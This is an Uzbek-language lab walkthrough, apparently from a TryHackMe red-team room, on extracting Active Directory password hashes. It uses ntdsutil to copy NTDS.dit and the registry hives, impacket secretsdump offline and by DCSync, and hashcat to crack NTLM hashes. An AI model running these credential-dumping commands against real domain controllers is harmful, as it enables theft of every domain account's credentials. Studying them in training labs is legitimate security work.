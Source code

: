 ## **NTDS Domain Controller (Domen Controller Hashlarini olish)**

**NTDS (New Technologies Directory Services)** — bu Active Directory ma'lumotlar bazasi bo‘lib, u barcha AD ma’lumotlarini o‘z ichiga oladi: obyektlar, atributlar, parollar va boshqalar. `NTDS.dit` faylida uchta asosiy jadval mavjud:

* **Schema table**: obyekt turlari va ularning o‘zaro bog‘liqliklarini saqlaydi.
* **Link table**: obyekt atributlari va ularning qiymatlarini saqlaydi.
* **Data table**: foydalanuvchilar va guruhlarni saqlaydi.

Ushbu fayl odatda `C:\Windows\NTDS` katalogida joylashgan bo‘ladi va shifrlangan holatda saqlanadi. NTDS.dit fayliga ishlayotgan tizimda to‘g‘ridan-to‘g‘ri murojaat qilib bo‘lmaydi, chunki u Active Directory tomonidan band qilingan.

Lekin ushbu fayl nusxasini olish uchun turli usullar mavjud. Ushbu topshiriqda **ntdsutil** va **Diskshadow** vositalari orqali fayl nusxasini olish, keyin esa ushbu fayl tarkibini parollarni yechish orqali o‘rganish usullari tushuntiriladi.

**Muhim:** NTDS faylini yechish uchun **SYSTEM** va **SECURITY** fayllari ham kerak bo‘ladi, chunki ularda Boot Key (yuklash kaliti) saqlanadi.

---

### **Ntdsutil vositasi**

**Ntdsutil** — Active Directory konfiguratsiyasini boshqarish uchun Windows’ning ichki vositasi. U quyidagilar uchun ishlatiladi:

* O‘chirilgan obyektlarni tiklash
* AD bazasini texnik xizmat ko‘rsatish
* AD snapshotlarni boshqarish
* DSRM admin parolini sozlash

---

## 🖥️ **Lokal Dumping (Kirish ma’lumotsiz)**

Agar sizda hech qanday foydalanuvchi ma’lumoti bo‘lmasa, lekin **Domain Controller** ustidan **administrator huquqlari** bo‘lsa — quyidagicha fayllarni olish mumkin.

### **Kerakli Fayllar:**

* `C:\Windows\NTDS\ntds.dit`
* `C:\Windows\System32\config\SYSTEM`
* `C:\Windows\System32\config\SECURITY`

### **NTDS faylini olish uchun PowerShell buyruq:**

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

`C:\temp` katalogida `Active Directory` va `registry` papkalari yaratiladi, va yuqoridagi 3 faylni ichida topasiz.

Bu fayllarni **AttackBox**’ga uzating va quyidagi buyruq bilan **hashlar**ni yeching:

```bash
python3.9 /opt/impacket/examples/secretsdump.py \
  -security path/to/SECURITY \
  -system path/to/SYSTEM \
  -ntds path/to/ntds.dit \
  local
```

---

## 🌐 **Masofaviy Dumping (Kirish ma’lumotlari bilan)**

Agar sizda **admin huquqiga ega foydalanuvchi ma’lumoti (parol yoki NTLM hash)** bo‘lsa, **Domain Controller**’dan masofadan ham hashlarni olishingiz mumkin.

---

### **DC Sync (Domain Controller Sync) hujumi**

Bu mashhur usul bo‘lib, maxsus ruxsatlarga ega bo‘lgan foydalanuvchi orqali amalga oshiriladi. Quyidagi AD ruxsatlar zarur:

* Replicating Directory Changes
* Replicating Directory Changes All
* Replicating Directory Changes in Filtered Set

Bu ruxsatlar orqali xaker domen replikatsiyasini (ya’ni, AD nusxalash) amalga oshiradi.

### **Impacket orqali DC Sync qilish:**

```bash
python3.9 /opt/impacket/examples/secretsdump.py \
  -just-dc THM.red/<AD_Admin_User>@10.201.112.212
```

* `-just-dc` → faqat NTDS ma'lumotlarini olish uchun ishlatiladi
* `THM.red/AD_Admin_User` → domen va foydalanuvchi (masalan: red/administrator)

### **Faqat NTLM hashlarni olish uchun:**

```bash
python3.9 /opt/impacket/examples/secretsdump.py \
  -just-dc-ntlm THM.red/<AD_Admin_User>@10.201.112.212
```

---

## 🔓 **Hashlarni Cracking qilish (parolni ochish)**

Olingan NTLM hashlarni **hashcat** yordamida buzishingiz mumkin. Windows NTLM hashlar uchun `-m 1000` rejimi ishlatiladi:

```bash
hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/rockyou.txt
```
